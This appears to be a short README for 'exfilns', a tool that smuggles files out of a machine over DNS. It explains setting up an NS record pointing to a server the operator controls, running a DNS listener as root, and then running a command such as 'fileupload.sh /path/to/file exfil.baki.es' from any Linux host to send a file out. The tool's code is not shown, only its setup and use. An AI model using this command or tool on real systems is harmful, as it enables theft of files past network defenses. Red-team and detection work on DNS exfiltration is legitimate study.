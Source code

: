 # exfilns
Setup: 
have a NS record for the domain you want to use pointed to a server you own
As an example, I run exfil.baki.es pointed to a digital ocean droplet

```$ dig +short exfil.baki.es NS
ubuntu-nyc1-01.cloud.baki.es.```

On the server (ubuntu-nyc1-01.cloud.baki.es in the above example) run ns.py with root permissions (to bind to port 53) 

from any Linux machine you should be able to run the fileupload.sh script to upload a file to that server and given the domain being used

With the examples above:
fileupload.sh /path/to/file exfil.baki.es
